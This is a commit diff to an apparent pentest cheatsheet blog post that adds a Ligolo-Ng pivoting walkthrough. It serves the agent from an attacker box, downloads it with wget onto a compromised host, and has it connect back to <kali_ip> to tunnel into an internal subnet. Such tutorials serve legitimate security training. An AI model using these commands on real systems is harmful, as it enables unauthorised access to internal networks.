

Before and after one commit to Vorkharium/vorkharium.github.io, a Jekyll site: the page built from _posts/2024-10-31-Ligolo-Ng-Cheatsheet.md, in a window 1280 px wide and 1400 px high, scrolled down 1560 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update 2024-10-31-Ligolo-Ng-Cheatsheet.md

````diff
--- a/_posts/2024-10-31-Ligolo-Ng-Cheatsheet.md
+++ b/_posts/2024-10-31-Ligolo-Ng-Cheatsheet.md
@@ -30,3 +30,43 @@
 sudo chmod +x agent
 ./agent
 ```
+
+# Basic Pivot
+Move the agent file into the pivot host
+```shell
+# On Kali
+sudo cp /home/kali/Downloads/ligolo-ng_agent_0.7.2_linux_amd64/agent .
+python3 -m http.server 443
+# On Target
+wget http://<kali_ip>:443/agent
+```
+Set up Ligolo-Ng on Kali
+```shell
+# Create an interface
+sudo ip tuntap add user Vorkharium mode tun ligolo
+sudo ip link set ligolo up
+# Add new IP range we want to access
+sudo ip route add 172.16.150.0/24 dev ligolo
+ip route list
+# Run the proxy file
+sudo chmod +x proxy
+./proxy -selfcert
+# The Ligolo-Ng console will now open (We will interact with it soon)
+```
+
+On the Pivot target, use the agent file to connect
+```shell
+chmod +x agent
+./agent --connect <kali_ip>:11601 -ignore-cert
+```
+
+Now enter the following in the Ligolo-Ng console
+```shell
+# Enter "session" to show the available sessions
+ligolo-ng » session
+# Enter "1" to select the session we created when using the agent (There is only one session to choose in this case)
+? Specify a session : 1
+# Enter "start" to start the connection
+[Agent : hackme@compromisedmachine] » start
+# Now we are able to access the network 172.16.150.0/24
+```
````
Also changed, not shown: other parts of _posts/2024-10-31-Ligolo-Ng-Cheatsheet.md (+1 -1 lines).
